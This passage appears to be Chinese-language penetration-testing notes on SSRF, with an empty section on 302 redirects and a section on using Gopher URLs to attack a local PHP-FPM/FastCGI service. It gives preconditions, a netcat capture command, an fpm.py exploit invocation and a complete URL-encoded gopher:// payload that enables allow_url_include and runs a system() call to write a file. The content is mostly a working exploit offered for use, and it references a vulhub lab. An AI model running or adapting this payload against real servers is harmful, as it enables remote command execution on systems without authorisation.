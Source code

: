 






### 4. 302跳转







### 5. Gopher攻击FastCGI

一般来说 FastCGI 都是绑定在 127.0.0.1 端口上的，但是利用 Gopher+SSRF 可以完美攻击 FastCGI 执行任意命令。

> p神介绍FastCGI的文章：https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html
> 实验环境：https://github.com/vulhub/vulhub/tree/master/fpm
> 利用条件
>
> - libcurl版本>=7.45.0(由于EXP里有%00，CURL版本小于7.45.0的版本，gopher的%00会被截断)
> - PHP-FPM监听端口
> - PHP-FPM版本 >= 5.3.3
> - 知道服务器上任意一个php文件的绝对路径
>



监听一个端口的流量`nc -lvvp 2333 > 1.txt`，执行EXP，流量打到2333端口

```sh
python fpm.py -c "<?php system('echo sectest > /tmp/1.php'); exit;?>" -p 2333 127.0.0.1 /usr/local/lib/php/PEAR.php
```



fpm.py地址https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

url编码

```python
f = open('1.txt')
ff = f.read()
from urllib import quote
print quote(ff)
curl 'gopher://127.0.0.1:9000/_%01%01%5E%94%00%08%00%00%00%01%00%00%00%00%00%00%01%04%5E%94%01%E7%00%00%0E%02CONTENT_LENGTH50%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%1BSCRIPT_FILENAME/usr/local/lib/php/PEAR.php%0B%1BSCRIPT_NAME/usr/local/lib/php/PEAR.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%1BREQUEST_URI/usr/local/lib/php/PEAR.php%01%04%5E%94%00%00%00%00%01%05%5E%94%002%00%00%3C%3Fphp%20system%28%27echo%20sectest%20%3E%20/tmp/1.php%27%29%3B%20exit%3B%3F%3E%01%05%5E%94%00%00%00%00'
```
